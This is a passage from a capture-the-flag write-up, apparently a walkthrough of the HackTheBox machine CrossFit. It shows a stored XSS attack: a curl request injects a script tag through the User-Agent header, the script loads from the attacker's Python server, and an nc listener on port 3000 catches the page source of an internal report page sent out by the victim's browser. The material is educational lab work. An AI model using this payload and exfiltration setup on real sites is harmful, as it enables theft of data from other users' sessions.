 I’ll need to send it back to a different port from where I’m hosting this payload using Python HTTP Server (since it won’t accept POSTs or show the body), so I’ll setup `nc` on port 3000 to catch that.

I’ll run the attack:

```

root@kali# curl -s http://gym-club.crossfit.htb/blog-single.php --data 'name=0xdf&email=0xdf@crossfit.htb&phone=9999999999&message=%3Cscript+src%3D%22http%3A%2F%2F10.10.14.11%22%3E%3C%2Fscript%3E&submit=submit' -H 'User-Agent: <script src="http://10.10.14.11/threat_report.js"></script>'
...[snip]...

```

The request hits Python:

```
10.10.10.208 - - [22/Jan/2021 17:56:27] "GET /threat_report.js HTTP/1.1" 200 -

```

And then reached `nc`:

```

root@kali# nc -lnkp 3000
POST / HTTP/1.1
Host: 10.10.14.11:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://gym-club.crossfit.htb/security_threat/report.php
Content-Type: text/plain;charset=UTF-8
Content-Length: 371
Origin: http://gym-club.crossfit.htb
Connection: keep-alive

Resp Code: 200
Page Source:
<!DOCTYPE html>
<html>
<head>
  <title>Security Report</title>
  <style>
    table, th, td {
      border: 1px solid black;
    }
  </style>
</head>
<body>
<h4>Logged XSS attempts</h4>
<table>
  <thead>
    <tr>
      <td>Timestamp</td>
      <td>User Agent</td>
      <td>IP Address</td>
    </tr>
  </thead>
<tbody>
</tbody>
</body>
</html>

```
